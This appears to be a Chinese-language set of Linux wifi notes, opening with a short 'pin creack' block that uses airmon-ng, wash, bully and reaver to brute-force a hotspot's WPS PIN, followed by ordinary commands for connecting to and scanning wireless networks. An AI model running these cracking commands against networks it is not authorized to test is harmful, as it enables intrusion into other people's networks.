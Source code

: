 pin creack
----------

```bash
ifconfig wlan0 down
# 这里会提示一些有可能被影响的进程 dhclient 和 wpa_supplicant
# 可以考虑将这些进程关闭
airmon-ng start wlan0
bully -e 热点名字 -v3 mon0

# 使用 reaver 的方法
wash -i mon0
reaver -a -S -vv -i mon0 -b `MAC`
```

通过命令行连接无线网, 简单版
----------------------------
来自 [connect-to-a-wireless-network-via-command-line](http://www.ghacks.net/2009/04/14/connect-to-a-wireless-network-via-command-line/)

```
#! /bin/bash
ifconfig wlan0
iwconfig wlan0 essid NETWORK_ID key WIRELESS_KEY
dhclient wlan0
```
`NETWORK_ID` 为无线名  
`WIRELESS_KEY` 搞不清楚,应该是密码吧. 默认为 16 进制的值,可以用 `s:WIRELESS_KEY` 来使用ascii

通过命令行连接无线网
--------------------

来自 [how-to-connect-to-wpawpa2-wifi-network](http://linuxcommando.blogspot.com/2013/10/how-to-connect-to-wpawpa2-wifi-network.html)

需要使用的工具
`yum install wpa_supplicant wireless-tools -y`

```
# 1. 查看你的无线设备名
$iw dev
phy#0
	Interface wlan0
		ifindex 3
		type managed
# 2. 检查无线设备是否启用 里面需要有个UP
$ ip link show wlan0
3: wlan0: (BROADCAST,MULTICAST) mtu 1500 qdisc noop state DOWN mode DEFAULT qlen 1000
    link/ether 74:e5:43:a1:ce:65 brd ff:ff:ff:ff:ff:ff
# 启用无线设备
$ ip link set wlan0 up

# 检查无线设备是否启用 里面有个UP
$ ip link show wlan0
3: wlan0: (NO-CARRIER,BROADCAST,MULTICAST,UP) mtu 1500 qdisc mq state DOWN mode DEFAULT qlen 1000
    link/ether 74:e5:43:a1:ce:65 brd ff:ff:ff:ff:ff:ff

# 3. 检查连接状态
$ /sbin/iw wlan0 link
Not connected.

# 4. 扫描网络
$ sudo /sbin/iw wlan0 scan
BSS 00:14:d1:9c:1f:c8 (on wlan0)
        ... 略过 ...
	freq: 2412
	SSID: Touch-me
```